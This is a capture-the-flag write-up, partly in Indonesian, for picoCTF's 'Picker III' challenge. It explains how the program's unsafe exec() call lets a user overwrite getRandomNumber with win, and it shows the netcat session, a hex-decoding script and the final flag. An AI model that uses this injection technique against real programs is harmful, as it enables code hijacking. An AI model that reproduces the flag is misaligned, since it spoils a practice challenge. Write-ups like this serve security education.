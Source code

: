 <h1>Picker III</h1>
<h3>Description</h3>
<pre>
Can you figure out how this program works to get the flag?
Connect to the program with netcat:
$ nc saturn.picoctf.net 55181
The program's source code can be downloaded <a href='https://artifacts.picoctf.net/c/525/picker-III.py'>here</a>.
</pre>
<h3>Solution</h3>

<p>Perhatikan fungsi write_variable(), disana ada fungsi exec('global '+var_name+';'+var_name+' = '+value) yang bisa digunakan untuk memanggil return dari fungsi win() melalui getRandomNumber(), sederhananya</p>

```python3

def write():
    exec('global getRandomNumber; getRandomNumber = win');

def getRandomNumber():
    print("Ini dari getRandomNumber")
    
def win():
    print("Flag : ini dari win()")

write()
getRandomNumber()
```
<p>Solved</p>

```console
┌──(root㉿Python)-[/home/venom/Downloads]
└─# nc saturn.picoctf.net 55181
==> 3
Please enter variable name to write: getRandomNumber
Please enter new value of variable: win
==> 4
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x61 0x31 0x38 0x36 0x66 0x39 0x61 0x63 0x7d 
==> 
```

```python3
flag = "0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x61 0x31 0x38 0x36 0x66 0x39 0x61 0x63 0x7d".split(' ')
for i in flag:
    print(chr(int(i[2:],16)),end='')
```

<h3>Flag</h3>
<pre>
picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_a186f9ac}
</pre>
